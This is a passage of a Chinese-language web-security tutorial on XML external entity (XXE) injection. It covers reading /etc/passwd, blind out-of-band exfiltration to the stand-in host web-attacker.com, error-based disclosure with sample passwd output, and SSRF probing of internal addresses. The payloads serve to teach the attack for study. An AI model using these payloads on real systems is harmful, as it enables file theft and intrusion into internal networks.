 ## XML外部实体注入的危害

XML外部实体注入会有很多危害，例如隐私文件获取以及发起SSRF攻击。让我们看一下它的攻击方式。

### XXE隐私文件获取

在之前学习XXE攻击方式的过程中，我们用XXE攻击来获取passwd文件。其实这就是XXE获取隐私文件的攻击方式。

在之前的示例中，我们默认了页面会将我们设置的XML内容进行输出，但实际上，**Web应用往往不会输出我们注入的XML内容**。这时候就是XXE盲注，我们需要借助一些技巧，来将文件的内容展示出来。

面对XXE盲注时，我们可以利用带外的方法来获取数据：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

在上述示例中，我们将获取到的数据通过get方式发送到攻击者的服务器，这样攻击者可以查看服务器接收到的请求获取到想要的数据。

当然，我们还可以利用报错信息来输出想要获取的数据：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

```

在这个示例中，我们将引入了error参数，XML会去访问一个不存在的文件，导致错误的产生，并将错误信息给eval，由于文件路径中存在我们需要的数据file，这样就会导致Web应用显示出错信息，并且其中包含我们需要的数据。我们可以看一个示例输出：

```plain
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

```

### XXE发起SSRF攻击

SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。

```plain
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

```

这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。

它到底有什么作用呢？**我们可以利用它来判断Web应用服务器内网地址的开启情况**，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。

在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。
